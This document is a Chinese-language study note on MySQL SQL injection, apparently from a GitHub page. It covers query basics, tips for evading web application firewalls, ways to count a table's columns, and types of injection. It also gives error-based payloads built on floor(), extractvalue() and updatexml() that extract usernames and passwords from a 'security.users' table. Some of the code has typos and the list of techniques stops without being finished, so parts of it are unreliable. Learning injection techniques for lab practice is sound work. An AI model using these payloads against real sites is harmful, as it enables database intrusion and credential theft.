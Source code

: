 ### sql查询语句
---
#### 基本查询语句：

---
**select**
```sql
select * from users where id = 1;
#与下方语句等效，bypass一些waf
```

```sql
select * from users where id in '1'; 
```
---

```sql
select * from users where id =(selcet id from users where username =('admin'))
#子查询 优先执行()内查询语句
```


---
**union**

```sql
select id from users union select email_id from emails;
#查询并合并数据显示
```


**注**:union联合查询必须要前后两条查询的列数必须要相等，所以需要补齐

---
**group by**
相比order by 可以用来waf bypass
```sql
select department,count(id) from student group by department;
#查询department院系人数count（id）对ID进行计数
```

一般用于二分法判断数据表列数
```sql
select * from users where id=9  group by 2;
#by2，4，8~~～依次排查到报错为止，从而确定列数；
```

```sql
select * from users where id=9group by 4;
```

---
**order by**

```sql
select stu_id from score where c_name='计算机' order by grade desc;
# grade参数desc使得排列顺序变为降序
```
同group by，一般用于判断数据表列数，且order by后面的参数决定了输出的结果将以第几列的顺序升序输出

---
**limit**
```sql
select * from users limit 1,3;
#限制为从第一行开始显示3行(实际是从0开始计数，类数组，即上述语句显示2,3,4行的结果)
```
一般用于限数显示报错反馈信息

---
**group_concat** 合并到一行显示
```sql
select group_concat(id,username,password)from users;
#将原本多行回显输出成一行，原因是一些回显可能只允许输出一行，导致其他行回显被折叠无法看到
```

---
**select database()** 查看当前数据库名称
**select version()** 查看当前数据库版本

### 注入分类

```
注入分类
|
└─── ————查询字段
|            |
|            └───字符型 输入的参数为字符串时，称为字符型
|            |
|            └───数字型 输入的参数为整型时，可认为是数字型注入
|
└─── ————注入方法
            |
            └───union注入
            |
            └───报错注入
            |
            └───布尔注入
            |
            └───时间注入
```

### 闭合的作用
手工提交闭合符号，结束前一段查询语句，后面即可加入其他语句，查询需要的参数不需要的语句可以用注释符号'--++”或‘#’或'%23'注释掉
注释掉：利用注释符号暂时将程序段脱离运行。把某段程序“注释掉”，就是让它暂时不运行(而非删除掉)

---
**information_schema**(包含所有mysql数据库的简要信息)包含**tables**（表名集合表）和**columns**（列名集合表）
**information_schema.schemata**包含了所有库名

---

### 报错注入
报错注入存在的基础**后台对于输入输出的合理性没有检查**，用户输入什么，服务器就会将相应信息返回

#### 报错注入的分类有

1.通过floor()报错注入

> 涉及到的函数
> rand()函数：随机返回0~1间的小数
> floor()函数：小数向下取整数。向上取整数ceiling()
> concat_ws()函数：将括号内数据用第一个字段连接起来
> group by子句：分组语句，常用于，结合统计函数，根据一个或多个列，对结果集进行分组
> as：别名
> count()函数：汇总统计数量
> limit：这里用于显示指定行数
```sql
union select 1,count(*),concat_ws('~',(select concat('~',password,username) from security.users limit 1,1),floor(rand(0)*2))as x from information_schema.tables  group by x--+
```

2.通过extractValue()报错注入

> #作用：从XML片段中提取指定的值。
> #示例：SELECT EXTRACTVALUE('<root><tag>value</tag></root>', '/root/tag'); 返回 value。其中'<root><tag>value</tag></root>'可以认为是标签tag，'/root/tag'则可认为是路径
> #用途：在报错注入中，可以传递无效的XML路径或结构来触发错误。

```sql
union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema=database())))
#其中，'0x7e'后面的括号的内容可以随便改
```

**注：** extractvalue()的输出显示只有32个，所以为了获得更多本来无法显示的数据可以使用**substring(x,y,z)** 其中x为控制输出的字符串,y为开始显示的字符的位置，z为显示字符的个数，在MySQL中，substring()和substr()等效，但是在oracle中只能使用substr()因此要注意数据库的不同导致函数用法也不同

```sql
union select 1,2,extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password)from security.users),1,30)))--+
```

3.通过updateXml()报错注入

> #作用：在XML片段中应用XPATH表达式并更新XML内容。
> #示例：SELECT UPDATEXML('XML_document,XPath_string,new_value'); 返回更新后的XML。其中'XML_document'是string的格式，为xml对象的名称，例如Doc，'XPath_string'为路径，XPath格式的字符串，'new_value'string的格式，替换查找到的符合条件的数据
> #用途：在报错注入中，可以传递无效的XPATH表达式来触发错误。在报错注入中，与extractvalue相同主要注重**XPath_string**，输入错误的路径 

4.通过NAMECONSTO()报错注入

5.通过jion()报错注入

6.通过exp()报错注入

7.通过geometryCollection()报错注入

8.通过polygon()报错注入

9.通过multipoint()报错注入

10.通过multlinestring()报错注入

11.通过multpolygon()报错注入

12.通过linestring()报错注入
